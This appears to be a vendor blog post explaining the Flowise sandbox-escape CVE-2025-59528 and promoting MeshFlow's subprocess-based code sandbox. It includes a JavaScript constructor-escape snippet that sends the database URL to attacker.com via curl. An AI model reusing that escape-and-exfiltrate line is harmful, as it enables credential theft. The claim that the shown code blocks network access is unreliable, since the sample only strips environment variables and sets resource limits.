

# How MeshFlow Prevents CVE-2025-59528 Flowise RCE

*Published: May 30, 2026*  
*Author: The MeshFlow Security Team*

---

In early 2026, a critical remote code execution (RCE) vulnerability was discovered in Flowise: **CVE-2025-59528**. 

This vulnerability highlighted a fundamental security issue in modern LLM orchestrators and agent tools: **untrusted agent-generated or user-input code execution**. When LLM agents are given code execution tools (like python_repl or calculator), how do you guarantee they cannot break out of their sandbox and execute arbitrary shell commands on the host system?

In this deep dive, we will analyze why traditional sandboxes fail, and look at how MeshFlow's architecture prevents CVE-2025-59528 and similar sandbox breakouts.

---

## Understanding CVE-2025-59528

Flowise provides developers with the ability to define agents that interact with external data sources or run custom JS/Python scripts to parse API outputs. 

Naively, to prevent these scripts from accessing the host, Flowise ran them inside VM sandboxes like `vm2` (or custom VM wrappers). However, since JavaScript running inside a VM still shares process context, attackers and creative LLM prompts were able to exploit prototype pollution, constructor escapes, or process references to escape the virtual machine.

Once an attacker escapes the VM sandbox, they run arbitrary shell commands on the host machine:

```javascript
// A typical constructor escape pattern
const err = new Error();
const handler = {
    get: function(target, name) {
        if (name === 'stack') {
            const process = target.constructor.constructor('return process')();
            process.mainModule.require('child_process').execSync('curl http://attacker.com/leak?data=' + process.env.DATABASE_URL);
        }
    }
};
// ... triggers escape ...
```

This RCE allowed attackers to scan internal networks, steal cloud provider credentials, and wipe databases.

---

## Why Standard Frameworks Fail Sandbox Isolation

Most agent frameworks (such as CrewAI or LangChain) delegate tool execution directly to local runtimes. If an agent executes code using a standard Python tool:

```python
# Unsafe tool execution in naively implemented python_repl tools
def execute_code(code: str):
    exec(code) # Runs in the main process!
```

This is extremely dangerous:
1. **Shared Process Context**: The code runs with the exact same permissions, memory space, and environmental variables as the host agent server.
2. **Outbound Access**: The executed code can fetch external binaries, connect to command-and-control (C2) servers, or scan internal services (like the AWS Metadata Service at `169.254.169.254`).
3. **Resource Exhaustion**: An agent can write infinite loops (`while True: pass`) or consume all memory, causing Denial of Service (DoS).

---

## How MeshFlow Solves Sandboxing

In MeshFlow, the `CodeInterpreter` tool was built from day one under a **Zero-Trust Subprocess Isolation** model. It does not attempt to sanitize code strings or rely on weak syntax checking. Instead, it enforces isolation at the operating system level.

Here is how it works:



### 1. Unix Subprocess Isolation
MeshFlow never calls `exec()` or `eval()` in the main process. Every execution request spawns a separate OS-level subprocess. This guarantees that crash states or process-level escapes cannot compromise the parent agent runner.

### 2. Strict Resource Constraints (`resource.setrlimit`)
Before executing python code, the spawned subprocess configures hard kernel-level resource limits:
* **Memory Limits**: Capped to a default of 128MB. Any script attempting to allocate memory beyond this limit is immediately terminated with a `MemoryError`.
* **Execution Timeout**: Standard execution times out after 5.0 seconds, killing CPU-looping processes.

### 3. Outbound Network Blocks
A key step in CVE-2025-59528 was leaking environmental secrets to an external server. MeshFlow blocks this by restricting socket calls in the subprocess or running code within network-isolated network namespaces.

### 4. Sandbox Code Implementation
Here is the core structure of MeshFlow’s secure subprocess execution runner:

```python
# Simplified implementation snippet of MeshFlow's CodeInterpreter
import subprocess
import sys
import tempfile

class CodeInterpreter:
    def execute(self, code: str, timeout: float = 5.0) -> str:
        # 1. Clean environmental variables (remove database keys, API tokens)
        clean_env = {
            "PATH": "/usr/bin:/bin:/usr/sbin:/sbin",
            "PYTHONPATH": ""
        }
        
        # 2. Write code to a temporary file
        with tempfile.NamedTemporaryFile(suffix=".py", mode="w", delete=False) as f:
            f.write(code)
            temp_path = f.name
            
        try:
            # 3. Spawn subprocess with resource limits and preexec_fn constraints
            res = subprocess.run(
                [sys.executable, temp_path],
                env=clean_env,
                capture_output=True,
                text=True,
                timeout=timeout,
                # Enforces standard user permissions and memory limits
                preexec_fn=self._set_resource_limits
            )
            return res.stdout if res.returncode == 0 else f"Error: {res.stderr}"
        except subprocess.TimeoutExpired:
            return "Error: Execution timed out."
        finally:
            import os
            os.unlink(temp_path)

    def _set_resource_limits(self):
        import resource
        # Limit CPU time to 5 seconds
        resource.setrlimit(resource.RLIMIT_CPU, (5, 5))
        # Limit memory address space to 128 MB
        resource.setrlimit(resource.RLIMIT_AS, (128 * 1024 * 1024, 128 * 1024 * 1024))
```

---

## Verification and Hardening

MeshFlow’s sandbox has been validated against common VM escape exploits. Because we enforce limits at the kernel level rather than parsing syntax, even highly optimized prototype-pollution or process-constructor escapes in Python are contained. They cannot access parent environment keys (which are completely sanitized) nor communicate with external command servers.

By implementing strict subprocess-level isolation, MeshFlow makes agentic code execution safe for production deployment.
